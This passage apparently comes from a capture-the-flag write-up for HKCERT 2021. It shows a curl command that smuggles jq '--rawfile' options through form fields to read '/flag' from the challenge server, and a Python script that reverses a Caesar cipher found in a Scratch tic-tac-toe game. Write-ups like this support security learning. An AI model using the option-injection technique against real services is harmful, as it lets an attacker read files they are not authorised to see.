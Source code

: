 **Solve:**  
`curl -X POST 'http://chalp.hkcert21.pwnable.hk:28370/' -F 'filter=.data.update=$a' -F 'json={"data":{"update":null}}' -F 'options[]=--rawfile' -F 'options[]=a' -F 'options[]=/flag'`

FLAG : **hkcert21{y0u\\are\\n0w\\jq\\expert!}**

## 回到12歲 (scratch-tic-tac-toe) - Misc (200 points)
### Challenge :
>If you can beat me in the game I'll give you the flag!  
https://scratch.mit.edu/projects/596813541/

### Solution : 
This is a Tic-Tac-Toe game written in Scratch. It did bring me back to my F.4 life which I learnt about Scratch in my ICT lesson.  
We can click the `See inside` button to view the source code of this project. By selecting the `Title`, we can see a yellow notes and if you remove it, you can see the key logic of getting the flag.
![tictactoe1](https://user-images.githubusercontent.com/19466939/143604250-dfb3428b-8be6-4589-8e69-f92c5b1fdf4b.png)
![tictactoe2](https://user-images.githubusercontent.com/19466939/143604259-5feaca57-6fe7-4d84-b6d5-7b8dadc07a2c.png)

We can see that if we input the correct flag, the program will perform some process and check if it is equal to `03vx{_ihq0xhh7svtx}t{sv180x{r`. Therefore, by reversing the logic, we can get the flag.

**Solve:**  
```
charset = "abcdefghijklmnopqrstuvwxyz0123456789{}_"
cipher = "03vx{_ihq0xhh7svtx}t{sv180x{r"
flag = ""
for i in range(len(cipher)):
    flag = flag + charset[charset.find(cipher[i]) - 19 % len(charset)]
print(flag)
```

FLAG : **hkcert21{he11o_caesar_cipher}**
